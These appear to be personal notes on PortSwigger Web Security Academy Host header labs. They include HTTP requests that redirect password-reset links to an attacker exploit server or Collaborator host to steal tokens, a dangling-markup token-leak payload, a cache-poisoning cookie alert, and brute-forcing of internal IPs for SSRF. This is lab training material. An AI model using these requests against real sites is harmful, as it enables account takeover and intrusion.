 ## Lab - 1: Basic password reset poisoning (A)

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

### how forgot password works in this lab ?

- first test with own account `wiener`
- enter name at forgot password page will make a post request

```
POST /forgot-password HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Then `Please check your email for a reset password link.`
- In email box, the following link with token is received.

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=WLiNjn9NG1CUePEojyt8OtuiaCr3clzi
```

If follow the link, reset password page is received. Then POST request to change the password.

```
POST /forgot-password?temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS HTTP/1.1
Host: 0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net
...

csrf=9FlVx2UgbGDnst1PfLnKjyNdNp2h9wPi&temp-forgot-password-token=Hg1GwkdzYSEpDG5FDG5M3gNMULH0vGPS&new-password-1=peter&new-password-2=peter
```

### How to exploit other user

- test the Host header for POST request with other Hosts

```
POST /forgot-password HTTP/1.1
Host: www.test.com
...
csrf=TmWD6yKuj2ZaYbUZkL6sH3f6jom3mvU3&username=wiener
```

- Email still received with the following link

```
https://www.test.com/forgot-password?temp-forgot-password-token=hZ2261K8u025FraGlCRDl2Gs7RRFMjd0
```

- change the Host header to exploit server and change the user name to other user

```
POST /forgot-password HTTP/1.1
Host: exploit-0a47002904c32fb3c00831f6017b006e.web-security-academy.net/
...
csrf=SOcfxkHQ6D47ls6UbKS5xRvORlFvvlfm&username=carlos
```

- Then look at the exploit server log and found a GET request with token.
- use that token to get the change password page for other user

```
https://0a2e00ee047f2fdbc0bd31ff00010045.web-security-academy.net/forgot-password?temp-forgot-password-token=<token-from-log>
```

---

## Lab - 2: Password reset poisoning via middleware (P)

- This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

```
POST /forgot-password HTTP/1.1
X-Forwarded-Host: l5r2vxr3alvuvijrao2ocl83puvkj9.burpcollaborator.net
Host: 0a64005403af9d9ac08f879e001900f4.web-security-academy.net
...
username=carlos
```

---

## Lab - 3: Password reset poisoning via dangling markup (E)

- This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

- Host header is vulnerable at adding any arbitary port number and that port number is reflected back in view raw (at user email in box)

```
POST /forgot-password HTTP/1.1
Host: 0ab200920371b631c106b24a007500c9.web-security-academy.net:'><a+href="//exploit-0a8300e5032db65cc101b150010b00eb.exploit-server.net/exploit?token=
...
username=carlos
```

---

## Lab - 4: Web cache poisoning via ambiguous requests (P)

- This lab is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page. To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser.

- add second Host header with exploit server and see where it is reflected
- in exploit server File path: /resources/js/tracking.js
- in exploit server Body : alert(document.cookie)

---

## Lab 5 : Host header authentication bypass (A)

- This lab makes an assumption about the privilege level of the user based on the HTTP Host header. To solve the lab, access the admin panel and delete Carlos's account.

- admin route can be found at `/admin`

```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

---

## Lab - 6: Routing-based SSRF (P)

- This lab is vulnerable to routing-based SSRF via the Host header. You can exploit this to access an insecure intranet admin panel located on an internal IP address. To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.

- Test the Host header and found that it requests to `burp collaborator`
- in burp intruder

```
GET / HTTP/1.1
Host: 192.168.0.§0§
...
```

- brute force 0 - 255

```
Uncheck the update Host Header to match target (important)
```

- found one IP that will get 302 request to admin
- follow the redirect and found post request to delete the username with CSRF token

```
GET /admin/delete?csrf=rand-string&username=carlos HTTP/1.1
```

- will get invalid CSRF token and took the session cookie from header
- set the cookie and

```
GET /admin HTTP/1.1
```

- get the CSRF token
- with the same cookie and CSRF token and post request to delete carlos

---

## Lab - 7: SSRF via flawed request parsing (P)

- This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address. To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos.

- same as lab 6 except Host header injection using absolute URL

```
GET https://lab-id.web-security-academy.net
Host: 192.168.0.1
...
```

---

## Lab - 8: Host validation bypass via connection state attack (P)

- This lab is vulnerable to routing-based SSRF via the Host header. Although the front-end server may initially appear to perform robust validation of the Host header, it makes assumptions about all requests on a connection based on the first request it receives. To solve the lab, exploit this behavior to access an internal admin panel located at 192.168.0.1/admin, then delete the user carlos.

- send request to repeater twice and group them
- then change to send group (single connection)
- for one of the request, change

```
GET /admin HTTP/1.1
Host: 192.168.0.1
...
Connection: keep-alive
```

- and send the request together and found the admin panel
- other steps same as above

---
